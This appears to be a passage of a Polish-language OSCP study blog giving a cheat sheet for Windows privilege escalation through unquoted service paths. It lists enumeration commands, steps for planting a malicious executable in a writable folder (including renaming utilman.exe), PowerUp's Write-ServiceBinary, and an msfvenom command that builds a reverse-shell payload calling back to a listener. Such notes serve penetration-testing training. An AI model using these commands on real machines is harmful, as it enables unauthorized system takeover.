 <p>#wmic service get name,displayname,pathname,startmode |findstr /i „auto” |findstr /i /v „c:\windows\” |findstr /i /v „””  (S!ren: z auto to działające usługi ; w cmd! i możesz ewentualnie usunc środkowy find aby pokazywało także w /windows/)<br>#sc query ; sc qc (szukaj wyników z „” lub spacjami)<br>#icacls „C:\Program Files (x86)\UNQUOTED_SERVICE_PATH_SOFTWARE”<br>#czy możesz coś wrzucić do C:\Program Files\<br>#czy możesz coś wrzucić do C:\Program Files\something\<br>#zmień C:\Program Files\something\something.exe na something.exe.BACK i wtedy wrzuć tu swój exe (np. <strong>ren</strong> C:\windows\system32\utilman.exe utilman.exe.bak) a przeniesienie przez polecenie copy.<br><strong>###sc###</strong><br>#sc qc<br>#sc qc WindowsScheduler<br>#sc stop WindowsScheduler<br>#sc start WindowsScheduler<br><strong>###icacls###</strong><br>#icacls .exe<br>#icacls C:\PROGRA~2\SYSTEM~1\.exe<br>#icacls C:\PROGRA~2\SYSTEM~1\.exe /grant Everyone:F<br><strong>###Steps###</strong><br>#1:Find unquoted service binpaths, for services run as ADMIN e.g. binpath= C:\Program Files\A bad folder\adminservice.exe<br>#2: Check if you have FULL/WRITE (F)(W) permissions along path using:<br>a) icacls „C:\Program Files\folder\A unquoted folder\adminservice.exe”<br>b) accesschk.exe -ucqv [/path/to/unquoted/folder] -accepteula<br>#3: Generate reverse shell payload and rename to path e.g. A.exe<br>#4: Place malicious binary in path, so that it is executed e.g. move A.exe „C:\Program Files\folder”.<br>#5: Execute by restarting computer (if service has startmode = auto) with shutdown /r /t 0.<br><strong><mark style="background-color:#fd9eff" class="has-inline-color">###oscp23###</mark></strong><br>#Ps: Get-CimInstance -ClassName win32_service | Select Name,State,PathName (listowanie wszystkich programow, malo skuteczne bo duzo wynikow)<br>#CMD: wmic service get name,pathname | findstr /i /v „C:\Windows\\” | findstr /i /v „””   (super, pokazuje wyniki ze sciezka w „”)<br>#sprawdzamy czy mozemy start i stop usluge: Start-Service GammaService    #&gt;   Stop-Service GammaService<br>#&gt;icacls „C:\Program Files\Enterprise Apps” (pamietaj aby dla folderow na koncu nie dawac /)<br>#&gt; znajdujemy miejsce gdzie mamy uprawnienia F lub W do wgrania .exe , przygotowujemy payload (np. skompilowany C do zmiany hasla usera, lub nowy user) i przenosimy na Windows do wskazanego folderu<br>#Start-Service GammaService (GammaService to nazwa uslugi)  (mimo  errorów exe zostanie wykonany)<br><strong>#—. .\PowerUp.ps1</strong><br>#Get-UnquotedService (nie zadzialalo mi a wiec uzylem: Invoke-AllChecks)<br>#automat: Write-ServiceBinary -Name 'GammaService’ -Path „C:\Program Files\Enterprise Apps\Current.exe” (gdzie wskazujemy aby zrobil plik Current.exe)<br>#&gt; restart: Restart-Service GammaService (zadzialalo !! stworzyl usera john)<br><strong>#– MSFvenom na nc 4444</strong><br>#msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.45.232 LPORT=4444 -f exe -o shell.exe<br><strong>###Tools###</strong><br>#Jaws pokaże (ps. chociaz u mnie słabo)<br>#wmic service get name,displayname,pathname,startmode |findstr /i „auto” |findstr /i /v „c:\windows\” |findstr /i /v „””  (S!ren: z auto to działające usługi ; w cmd! i możesz ewentualnie usunc środkowy find aby pokazywało także w /windows/)<br>#sc query ; sc qc (szukaj wyników z „” lub spacjami)<br>#icacls „C:\Program Files (x86)\UNQUOTED_SERVICE_PATH_SOFTWARE”<br>#czy możesz coś wrzucić do C:\Program Files\<br>#czy możesz coś wrzucić do C:\Program Files\something\<br>#zmień C:\Program Files\something\something.exe na something.exe.BACK i wtedy wrzuć tu swój exe (np. <strong>ren</strong> C:\windows\system32\utilman.exe utilman.exe.bak) a przeniesienie przez polecenie copy.<br><strong>###własny skrypt do unquoted path automat sprawdza:</strong></p>



<pre class="wp-block-code"><code>cd "C:\Windows\TEMP"
sc query state= all | findstr "SERVICE_NAME:" &gt;&gt; ServiceNames.txt
FOR /F %i in (ServiceNames.txt) DO echo %i
type ServiceNames.txt
FOR /F "tokens=2 delims= " %i in (ServiceNames.txt) DO @echo %i &gt;&gt; Services.txt
FOR /F %i in (Services.txt) DO @sc qc %i | findstr "BINARY_PATH_NAME" &gt;&gt; path.txt
type path.txt</code></pre>



<h4 class="wp-block-heading"><span class="ez-toc-section" id="Impersonation" ez-toc-data-id="#Impersonation"></span>Impersonation<span class="ez-toc-section-end"></span></h4>
